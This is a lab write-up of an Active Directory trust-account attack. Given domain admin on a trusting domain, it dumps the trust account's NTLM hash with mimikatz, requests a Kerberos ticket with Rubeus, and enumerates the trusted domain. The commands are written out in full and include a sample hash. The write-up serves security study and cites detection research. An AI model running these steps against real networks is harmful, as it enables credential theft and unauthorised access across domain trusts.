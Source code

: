 # Abusing Trust Account$: From Trusting Domain to Trusted Domain

This is a quick lab to familiarize with a technique that allows accessing resources on a trusted domain from a fully compromised (Domain admin privileges achieved) trusting domain, by recovering the trusting `account$` (that's present on the trusted domain) password hash.

This lab is based on the great research here [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted), go check it out for more details and detection / prevention ideas.

## Overview

The environment for this lab is as follows:

| Resource               | Type              |                                                                                      |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------ |
| first-dc.first.local   | Domain Controller | Domain controller in the first.local domain                                          |
| second-dc.second.local | Domain Controller | Domain controller in the second.local domain                                         |
| first.local            | Domain            | This domain does not trust second.local domain, but second.local trusts this domain. |
| second.local           | Domain            | This domain trusts first.local domain, but first.local does not trust this domain.   |

In short, there is a one way trust relationship between `first.local` and `second.local`, where `first.local` does not trust `second.local`, but `second.local` trusts `first.local`. Or simply put in other words, it's possible to access resources from `first.local` on `second.local`, but not the other way around.

The technique in this lab, however, shows that it's still possible to access resources from `second.local` on `first.local` domain if `second.local` domain is compromised and domain admin privileges are obtained.&#x20;

This technique is possible, because once a trust relationship between domains is established, a trust account for the trusting domain is created in the trusted domain and it's possible to compromise that account's password hash, which enables an attacker to authenticate to the trusted domain as the trusts account.

In our situation, considering that `first.local` is a trusted domain trusted by the trusting domain second.local, the trust account `first.local\second$` (user account `second$` in the domain `first.local`) will be created.&#x20;

`first.local\second$` is the account we want to and CAN compromise from second.local, assuming we have domain admin privileges on `second.local`.

## Checks

Let's check some of the things we touched on in the overview.&#x20;

Confirm the trust relationships between domains:

```
# on first-dc.first.local
get-adtrust -filter *
```

```
# on second-dc.second.local
get-adtrust -filter *
```

Confirm that there's a trust account `second$` on `first.local` domain:

```
# on first-dc.first.local
get-aduser 'second$'
```

Confirm that we can enumerate resources on the trusting domain second.local from first.local:

```
# from first-dc.first.local
get-aduser -Filter * -Server second.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

Confirm that we cannot enumerate resources on the trusted domain first.local from the trusting domain second.local:

```
# on second-dc.second.local
get-aduser -Filter * -Server first.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

## Compromising Trust Account first.local\second$

As mentioned earlier, the main crux of the technique is that we're able to compromise the trust account `first.local\second$` if we have domain admin access on `second.local`.

To compromise the `first.local\second$` and reveal its password hash, we can use mimikatz like so:

```
# on second-dc.second.local
mimikatz.exe "lsadump::trust /patch" "exit"
```

Note the RC4 hash in \[out] first.local -> second.local line - this is the NTLM hash for `first.local\second$`, capture it.

## Requesting TGT for first.local\second$

Once we have the NTLM hash for `first.local\second$`, we can request its TGT from `first.local`:

```
#on second-dc.second.local
Rubeus.exe asktgt /user:second$ /domain:first.local /rc4:24b07e26ca7affb4ac061f6920cb57ec /nowrap /ptt
```

## Accessing Resources on First.local from Second.local

At this point on `second-dc.second.local`, we have a TGT for `first.local\second$` committed to memory and we can now start enumerating resources on `first.local`:

```
Get-ADUser roast.user -Server first.local -Properties * | select samaccountname, serviceprincipalnames
```

## References

{% embed url="https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}
